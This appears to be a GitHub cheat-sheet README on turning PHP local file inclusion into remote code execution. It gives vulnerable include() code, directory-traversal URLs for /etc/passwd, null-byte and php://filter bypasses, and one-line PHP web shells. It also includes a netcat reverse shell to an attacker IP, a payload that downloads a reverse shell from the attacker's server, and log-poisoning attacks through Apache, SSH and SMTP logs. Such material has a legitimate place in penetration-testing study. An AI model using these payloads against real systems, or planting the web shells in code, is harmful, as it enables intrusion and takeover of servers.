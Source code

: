 # LFI---RCE-Cheat-Sheet

Local File Inclusions occur when an HTTP-GET request has an unsanitized variable input which will allow you to traverse the directory and read files. This attack can often provide key information during a reconnaissance and can sometimes be used to gain remote code execution.

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#vulnerable-php-code-lfi-1)Vulnerable PHP Code (LFI) 1

Basic unsecure code

```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>

Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#vulnerable-php-code-lfi-2)Vulnerable PHP Code (LFI) 2

Basic unsecure code

```
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>


Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#secure-php-code-lfi)Secure PHP Code (LFI)

Secure code - More secure than above , but still expliotable

```
<?php

if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}

?>
    
```

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#bypassing-php-via-null-byte)Bypassing PHP via NULL Byte

```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
```

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#bypassing-php-via-wrappers)Bypassing PHP via WRAPPERS

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
```

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#php-rce)PHP RCE

```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>

// Replace IP & Port

Dangerous PHP Functions that can be abused for RCE
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#lfi-to-rce-via-apache-log-file-poisoning-php)LFI to RCE via Apache Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 



Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR

python -m SimpleHTTPServer 9000 



Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 


file_put_contents('shell.php')                                // What it will be saved locally on the target
file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called

Execute PHP Reverse Shell: http//10.10.10.10/shell.php

```

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#lfi-to-rce-via-ssh-log-file-poisoning-php)LFI to RCE via SSH Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 



Payload: ssh <?php system($_GET['c']);?>@<target_ip>


Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id

```

# [](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet#lfi-to-rce-via-smtp-log-file-poisoning-php)LFI to RCE via SMTP Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 



telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id

```